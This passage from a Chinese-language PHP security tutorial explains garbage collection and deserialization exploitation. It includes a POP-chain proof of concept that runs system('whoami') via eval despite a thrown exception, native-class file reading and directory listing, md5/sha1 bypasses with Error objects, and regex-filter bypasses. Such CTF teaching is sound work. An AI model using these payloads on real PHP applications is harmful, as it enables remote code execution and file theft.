    'heigh' => (refcount=2, is_ref=1)='wanth3f1ag'
)
*/
```

删除变量

```php
<?php
$a = array('name' => 'wanth3f1ag','age' => 20);
$a['heigh'] = &$a['name'];
xdebug_debug_zval( 'a' );
unset($a['age']);
xdebug_debug_zval( 'a' );
/*a: (refcount=1, is_ref=0)=array ('name' => (refcount=2, is_ref=1)='wanth3f1ag', 'age' => (refcount=0, is_ref=0)=20, 'heigh' => (refcount=2, is_ref=1)='wanth3f1ag')
 *a: (refcount=1, is_ref=0)=array ('name' => (refcount=2, is_ref=1)='wanth3f1ag', 'heigh' => (refcount=2, is_ref=1)='wanth3f1ag')
*/
```

第二个就是回收周期

## 回收周期

### php <=5.2

在php5.3之前，GC回收是仅仅依靠引用计数来进行的，但是这样子造成了一个循环引用问题，进而可能出现内存泄露

### php 5.3–>5.6

从php5.3开始，在引用计数的基础上使用了一种同步循环回收的同步算法去解决这个问题

这个算法把那些可能是垃圾的变量容器放入根缓冲区，仅仅在根缓冲区满了时，才对缓冲区内部所有不同的变量容器执行垃圾回收操作。具体的流程如下

- 如果发现一个zval容器中的refcount 增加，则该变量仍在使用中，因此不是垃圾。
- 如果发现一个zval容器中的refcount在减少，如果 refcount 减少到 0，则 zval 可以释放；
- 如果发现一个zval容器中的refcount在减少，并没有减到0，PHP会把该值放到缓冲区，当做有可能是垃圾的怀疑对象；
- 当缓冲区达到临界值，PHP会自动调用一个方法取遍历每一个值，如果发现是垃圾就清理。

### php>=7.0

针对引用计数的规则进行了一些调整

- 对于null，bool，int和double的类型变量，refcount永远不会计数；
- 对于对象、资源类型，refcount计数和php5的一致；
- 对于字符串，未被引用的变量被称为“实际字符串”。而那些被引用的字符串被重复删除（即只有一个带有特定内容的被插入的字符串）并保证在请求的整个持续时间内存在，所以不需要为它们使用引用计数；如果使用了opcache，这些字符串将存在于共享内存中，在这种情况下，您不能使用引用计数（因为我们的引用计数机制是非原子的）；
- 对于数组，未引用的变量被称为“不可变数组”。其数组本身计数与php5一致，但是数组里面的每个键值对的计数，则按前面三条的规则（即如果是字符串也不在计数）；如果使用opcache，则代码中的常量数组文字将被转换为不可变数组。再次，这些生活在共享内存，因此不能使用refcounting。

## 在反序列化中的用法

话说到这了，总得来点实际的东西吧，GC回收机制有什么地方是值得我们利用的呢？在反序列化中，我们不难想到一个魔术方法`__destruct()`，该方法会在对象被销毁的时候触发，可能是在程序结束后对象销毁自动触发，也可能是对象显式销毁后触发，但是如果遇到程序报错或者抛出异常则不会触发。

触发垃圾回收机制的方法有

- 数组对象为NULL时，可以触发。
- 对象被unset()处理时，可以触发。

### unset主动触发

先写个demo尝尝鲜

```php
<?php
class test{
    public $num;

    public function __construct($num){
        $this->num = $num;
        echo "consrtuct("."$num".")\n";
    }
    public function __destruct(){
        echo "destruct(".$this->num.")\n";
    }
}
$a = new test(1);
$b = new test(2);
$c = new test(3);
/*consrtuct(1)
consrtuct(2)
consrtuct(3)
destruct(3)
destruct(2)
destruct(1)
```

```php
<?php
class test{
    public $num;

    public function __construct($num){
        $this->num = $num;
        echo "consrtuct("."$num".")\n";
    }
    public function __destruct(){
        echo "destruct(".$this->num.")\n";
    }
}
$a = new test(1);
unset($a);
$b = new test(2);
$c = new test(3);
/*consrtuct(1)
destruct(1)
consrtuct(2)
consrtuct(3)
destruct(3)
destruct(2)
```

可以发现销毁方法提前执行了，因为我们主动触发GC回收机制了

### 绕过异常抛出

例如我们本地测试一下

```php
<?php
class test{
    public $test = "yes";
    public function __destruct() {
        echo $this->test;
    }
}
$a = new test();
throw new Exception("noooooob!!!");
```

测试并没有输出yes，说明没触发该方法，这是因为throw函数自动回收了销毁的对象，导致destruct检测不到有东西销毁，从而导致无法触发魔术方法

所以我们可以通过提前触发垃圾回收机制来抛出异常，从而绕过GC回收，唤醒__destruct()魔术方法。

例如我们这里用第一个方法，去构造数组对象并让数组对象为null

```php
<?php
class test{
    public $test = "yes";
    public function __destruct() {
        echo $this->test;
    }
}
$a = new test();
$arr = serialize(array($a, null));
//echo serialize($arr);
//a:2:{i:0;O:4:"test":1:{s:4:"test";s:3:"yes";}i:1;N;}
$poc = str_replace("i:1;N;","i:0;N;",$arr);
unserialize($poc);
throw new Exception("noooooob!!!");
```

成功输出yes，说明提前触发destruct了

放一个包师傅写的题目

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
class gc0{
    public $num;
    public function __destruct(){
        echo $this->num."hello __destruct";
    }
}
class gc1{
    public $string;
    public function __toString() {
        echo "hello __toString";
        $this->string->flag();
        return 'useless';
    }
}
class gc2{
    public $cmd;
    public function flag(){
        echo "hello __flag()";
        eval($this->cmd);
    }
}
$a=unserialize($_GET['code']);
throw new Exception("Garbage collection");
?>
```

可以看到这里有一个异常抛出，这会导致无法触发`__destruct`

链子

```php
gc0::destruct->gc1::toString->gc2::flag
```

poc

```php
<?php
class gc0{
    public $num;
}
class gc1{
    public $string;

}
class gc2{
    public $cmd;
}
$a = new gc0();
$a -> num = new gc1();
$a -> num -> string = new gc2();
$a -> num -> string -> cmd = 'system("whoami");';
$arr = serialize(array($a,null));
//echo serialize($arr);
//a:2:{i:0;O:3:"gc0":1:{s:3:"num";O:3:"gc1":1:{s:6:"string";O:3:"gc2":1:{s:3:"cmd";s:17:"system("whoami");";}}}i:1;N;}
$poc = str_replace("i:1;N","i:0;N",$arr);
echo $poc;
```



当然这里本质上就是让这个对象指向null，所以之前说到的删除大括号，修改属性个数的方法也是可以的

```php
a:2:{i:0;O:3:"gc0":1:{s:3:"num";O:3:"gc1":1:{s:6:"string";O:3:"gc2":1:{s:3:"cmd";s:17:"system("whoami");";}}}i:1;N;
     
a:1:{i:0;O:3:"gc0":1:{s:3:"num";O:3:"gc1":1:{s:6:"string";O:3:"gc2":1:{s:3:"cmd";s:17:"system("whoami");";}}}i:1;N;}
```

# __toString触发的场景

- 将反序列化对象打印输出的时候会触发
- 将反序列化对象和字符串进行拼接的时候会触发
- 将反序列化对象和字符串进行弱比较(==)的时候会触发(因为PHP在弱比较的时候会进行类型的转换)
- 将反序列化对象经过php字符串操作函数处理的时候，例如strlen()、str_replace()等

# PHP原生类的利用

## 读取文件

### SplFileObject类

原生类SplFileObject读取文件

这里用php原生类SplFileObject读/flag



SplFileObject 类中的fgets和fread方法都可以读文件，尽管这些方法没有参数，但是filename文件名是在类中确定的，所以直接传文件名就行

## 可遍历目录类

可遍历目录类有以下几个：

- DirectoryIterator 类
- FilesystemIterator 类
- GlobIterator 类

### DirectoryIterator 类



DirectoryIterator类为查看文件系统目录的内容提供了一个简单的接口。该类的构造方法将会创建一个指定目录的迭代器。

**当执行到echo函数时，会触发DirectoryIterator类中的 `__toString()` 方法，输出指定目录里面经过排序之后的第一个文件名**

- 利用 DirectoryIterator 类遍历指定目录里的文件

写个demo

```php
<?php
$dir = new DirectoryIterator('/');
echo $dir;
```



显示出一个Windows中每个分区都会有的一个$Recycle.Bin文件

```php
<?php
$dir=new DirectoryIterator("glob://./*.php");
echo $dir;
```



我们也可以搭配glob://去使用，但其实这里始终都不太方便看

如果想输出全部的文件名我们还需要对$dir对象进行遍历

```php
<?php
$dir=new DirectoryIterator("./");
foreach($dir as $f){
    echo($f."\n");
    //echo($f->__toString().'<br>');
}
```



### FilesystemIterator 类

FilesystemIterator 类与 DirectoryIterator 类相同，因为这两个是父子类的关系，这里就不细说了



### GlobIterator 类



这个类也可以遍历一个文件目录，但是这个类的行为类似于我们的glob函数，可以通过匹配的方式去查找文件路径，所以使用这个类的化就不需要用`glob://`了

写个demo

```php
<?php
$dir=new GlobIterator("*.php");
echo $dir;
//1.php
```

## 绕过md5/hash

**这里我们可以使用原生类Error或者Exception，只不过 Exception 类适用于PHP 5，7和8，而 Error 只适用于 PHP 7和8。**

Exception原生类

(PHP 5, PHP 7, PHP 8)

**Exception**是所有用户级异常的基类。

关于类的摘要



属性:

- message

  异常消息内容

- code

  异常代码

- file

  抛出异常的文件名

- line

  抛出异常在该文件中的行号

- previous

  之前抛出的异常

- string

  字符串形式的堆栈跟踪

- trace

  数组形式的堆栈跟踪

各种方法的解释



Error原生类

(PHP 7, PHP 8)

**Error** 是所有PHP内部错误类的基类。

关于类的摘要



属性

- message

  错误消息内容

- code

  错误代码

- file

  抛出错误的文件名

- line

  抛出错误的行数

- previous

  之前抛出的异常

- string

  字符串形式的堆栈跟踪

- trace

  数组形式的堆栈跟踪

各种方法的解释


接下来我们拿Error类在本地做一下测试进行讲解，Exception类和这个大差不差

```php
<?php
$a=new Error("payload",1);
$b=new Error("payload",2);
echo $a;
echo $b;
if ($a!=$b){
	echo "不相等";
}
if (md5($a)===md5($b)){
	echo "md5相等";
}
if (sha1($a)===sha1($b)){
	echo "sha1相等";
}
?>
    /*
Error: payload in E:\vscode\profiles\1.php:2
Stack trace:
#0 {main}Error: payload in E:\vscode\profiles\1.php:3
Stack trace:
#0 {main}不相等
*/
```

这里可以看到是成功满足了不相等的条件的，

在 PHP 中，`$a` 和 `$b` 是两个不同的对象实例，尽管它们的构造函数接收的参数相同（即都为 `"payload"`），但它们的错误代码不同（`$a` 的错误代码为 `1`，而 `$b` 的错误代码为 `2`）。

在 PHP 中，当您比较两个对象时，使用 `!=` 或 `!==` 运算符会比较对象的实例

1. **引用比较**：如果两个对象引用的是同一个实例（即它们是同一个对象），那么它们是相等的。
2. **内容比较**：如果两个对象是不同的实例（即它们是不同的对象），即使它们的属性具有相同的值，PHP 仍然会认为它们是不相等的

因此，这两个对象被认为是不相等的。但是后面两个条件没满足，没满足md5的验证。这时候我们如果设置为同一行呢

```php
<?php
$a=new Error("payload",1);$b=new Error("payload",2);
echo $a."\n";
echo $b."\n";
if ($a!=$b){
	echo "不相等\n";
}
if (md5($a)===md5($b)){
	echo "md5相等\n";
}
if (sha1($a)===sha1($b)){
	echo "sha1相等\n";
}
?>
/*
Error: payload in E:\vscode\profiles\1.php:2
Stack trace:
#0 {main}
Error: payload in E:\vscode\profiles\1.php:2
Stack trace:
#0 {main}
不相等
md5相等
sha1相等
*/
```

这时候他们的md5和sha1是一样的,且他们的值是不一样的，因为md5和sha1比较的是

`Error: payload in E:\vscode\profiles\1.php:2
Stack trace:
#0 {main}`

由于它们在同一行中被执行，若在此行代码中发生错误，错误指向的行数仅会标记为当前的行，即行号 2，这时候他们的内容完全相等，所以他们的md5值也会相等

# 绕过正则

假如我们有以下代码

```php
if(!preg_match('/^O:\d+/i',$_GET['poc'])){
    unserialize($_GET['poc'])
}
```

可以看到这里有一个正则，会匹配序列化字符串是否是对象字符串开头，这里的话有三种方法可以绕过

## 利用加号绕过

```php
$a = 'O:4:"test":1:{s:1:"a";s:3:"abc";}'; //+号绕过 
$b = str_replace('O:4','O:+4', $a);
unserialize(urlencode($b));
```

## 用数组包装

```php
unserialize(serialize(array($a)););
```

## 16进制绕过

参考未验证：https://forum.butian.net/index.php/share/3007

```php
O:4:"test":2:{s:4:"%00*%00a";s:3:"abc";s:7:"%00test%00b";s:3:"def";}
用16进制表示
O:4:"test":2:{S:4:"\00*\00\61";s:3:"abc";s:7:"%00test%00b";s:3:"def";}
```

表示字符类型的s大写时，会被当成16进制解析。
